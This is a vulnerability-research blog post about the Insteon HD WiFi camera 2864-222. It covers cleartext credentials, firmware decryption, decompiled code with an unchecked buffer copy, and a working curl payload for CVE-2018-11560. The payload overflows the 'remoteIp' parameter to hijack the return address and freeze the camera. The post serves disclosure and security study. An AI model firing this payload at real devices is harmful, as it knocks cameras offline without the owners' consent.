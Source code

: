 # Finding 0-days in Insteon HD WiFI Camera 2864-222

In this brief blogpost we will exploit the Insteon HD Wifi <a href="https://www.amazon.com/Insteon-2864-222-HD-Camera-White/dp/B00Q5XRS8S/ref=sr_1_4?s=hi&ie=UTF8&qid=1522359060&sr=1-4&keywords=insteon+wifi+camera">Camera</a>, model 2864-222.

Without too much talking, let's start.

## Traffic Analysis

According on the Insteon WiFI camera manual, this camera provides an HTTP web interface, which can be accessed at http://<ip_camera>:34100.
Though we tried with all the Internet browsers we could think of (Google Chrome, IE, Firefox, Opera and Safari, lynx), we weren't able to log into the camera to see the video stream.
After calling the Insteon support, we were told that the necessary browser plugins to login using a web browser were not maintained anymore. Too bad!

We then opened wireshark to sniff the traffic between the Insteon app and the camera, and we found, as we can see from the picture below, that the HTTP interface was still active and responding.


![alt text](https://github.com/badnack/Insteon_2864-222/blob/master/shark.png "Wireshark sniffing")


Note also that, the credentials are transmitted in clear text. 
First bad sign. 


## Firmware Analysis
We then wanted to get our hands on the firmware mounted on the camera.
After some research, we found that: 1) the camera firmware is publicly avilable, though encrypted and 2) the Insteon camera is a rebrand of Foscam.
With these information in mind, we downloaded the firmware and successfully decrypted it with one of the known Foscam used passwords.
After looking at the contained binary files, it became clear that the camera mounts an ARM architecture.
Among these, we identified the binary named webService, as the binary handling the user-provide requests.

Once opened with the IDA decompiler, we proceeded in finding the function parsing the URIs parameters. 

To do this we looked for the known GET keywords we observed during the traffic sniffing phase.
In particular, we looked for the keyword 'usr' as in 'usr=root', and after finding it, we retrieved all the functions refercing such string.
After looking at each one of these function, we found the one we were looking for, whose code is reported below.
```c
signed int __fastcall get_value_key(const char *user_URI, const char *key_word, _BYTE *dst_buff)
{
   bool v3; // zf
  signed int counter; // r7
  char *key_val_ptr; // r0
  signed int result; // r0
  const char *assign_ptr; // r5
  signed int assign_len; // r0
  int current_char; // r3
  const char *val_ptr; // r5
  signed int val_len; // r0
  signed int i; // r3
  int c; // r2
  int tmp_buff; // [sp+0h] [bp-98h]

  v3 = key_word == 0;
  if ( key_word )
    v3 = dst_buff == 0;
  if ( v3 )
    return -1;
  counter = 0;
  memset(&tmp_buff, 0, 0x80u);
  strcpy((char *)&tmp_buff, key_word);
  strcat((char *)&tmp_buff, "=");
  key_val_ptr = strstr(user_URI, (const char *)&tmp_buff);
  if ( !key_val_ptr )
  {
    *dst_buff = 0;
    return -1;
  }
  assign_ptr = &key_val_ptr[strlen((const char *)&tmp_buff) - 1];
  assign_len = strlen(assign_ptr);
  do
  {
    if ( counter >= assign_len )
      break;
    current_char = (unsigned __int8)assign_ptr[counter++];
  }
  while ( current_char != '=' );
  val_ptr = &assign_ptr[counter];
  val_len = strlen(val_ptr);
  for ( i = 0; i < val_len; ++i )
  {
    c = (unsigned __int8)val_ptr[i];
    if ( c == '&' )
    {
      dst_buff[i] = 0;
      break;
    }
    dst_buff[i] = c;
  }
  result = 0;
  dst_buff[i] = 0;
  return result;
}
```

As we can see, the above code parses a given URI, searches for the GET key (e.g., 'usr'), skips the '=' characters and finally copy the value associate with the considered key in a provided destination buffer.
The problem here, is that the length of the destination buffer is not provided, let alone check. Therefore, one could potentially provide a value for a the 'usr' key long enough to overwrite any provided destination buffer.
Let's try this out.

First off, we will retrieve the list of the keywords the firmware accepts, by looking for all the cross-references to the above function, and retrieving the passed keywords.
Overall there are __789 different instances__ of this function being called, possibly meaning __789 different unique vulnerabilties__.
We only tested and successfully verified only a bunch of them. For space reasons, and because the exploits look all very similar, here I will report only one of them, for which the __CVE-2018-11560__ was assigned.
Other bugs related to the GET keywords 'pid', 'pwd' and 'usr' were assigned to __CVE-2018-12640__.

Among the GET keys accepted by the web-server, there is one called 'remoteIp'.
The snippet of the function that retrieves its value, by calling the get_value_key function, is reported below:

```c
signed int __fastcall executeCGICmd(int a1, const char *a2)
{
  const char *v2; // r4
  int v3; // r8
  int v5; // r0
  char v6; // [sp+14h] [bp-124h]
  char v7; // [sp+54h] [bp-E4h]
  char v8; // [sp+94h] [bp-A4h]
  char s; // [sp+D4h] [bp-64h]
  int v10; // [sp+114h] [bp-24h]

  v2 = a2;
  v3 = a1;
  if ( !a2 )
    return -1;
  memset(&s, 0, 0x40u);
  memset(&v8, 0, 0x40u);
  memset(&v7, 0, 0x40u);
  v10 = 0;
  sub_2830C(v2, &v7);
  sub_282E8(v2, &s);
  sub_282C4(v2, &v8);
  get_value_key_bug(v2, "remoteIp", &v6);
  if ( !sub_52C44((int)&unk_A5A78, &v6) )
  {
  // additional code...
 ```


As one can see, the destination buffer is defined as big as 64 bytes, which means that if the value provided for the key 'remoteIp' is longer than 64 characters, the function 'get_value_key' will overflow the buffer v6.
Moreover, as the last assembly instruction overwrites the value of PC through a pop from the stack (as shown below), one can calculate the offset of the memory value being popped (i.e., the LR register content), and overwrite it with a known value.

```asm
loc_2907C
ADD     SP, SP, #0x118
LDMFD   SP!, {R4-R10,PC}
; End of function executeCGICmd
```

To easily prove our exaploit and see its effects, we targeted the 'sleep' function.

The final attack is the following:

```bash
time curl --silent --output /dev/null curl 10.250.250.126:34100/cgi-bin/CGIProxy.fcgi\?cmd=asd\&usr=asd\&pwd=asd\&remoteIp=`python -c "print ('A'*266 + '\x9c\x32')"`
```

The above command, when executed, stalls the camera for no less than 45 second.
During this time the camera stream become unavailable, which for a WiFi camera I would say it's pretty bad, if you ask me.

